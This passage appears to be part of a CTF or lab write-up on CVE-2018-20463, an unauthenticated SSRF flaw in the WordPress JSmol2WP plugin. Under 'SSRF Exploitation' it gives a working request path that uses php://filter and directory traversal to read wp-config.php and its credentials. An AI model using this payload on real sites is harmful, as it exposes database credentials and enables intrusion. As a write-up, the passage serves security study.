 Research revealed CVE-2018-20463 - Unauthenticated Server Side Request Forgery (SSRF) vulnerability.

![CVE-2018-20463](images/cve.png)


### 4. SSRF Exploitation


The vulnerable endpoint format:

```txt
wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
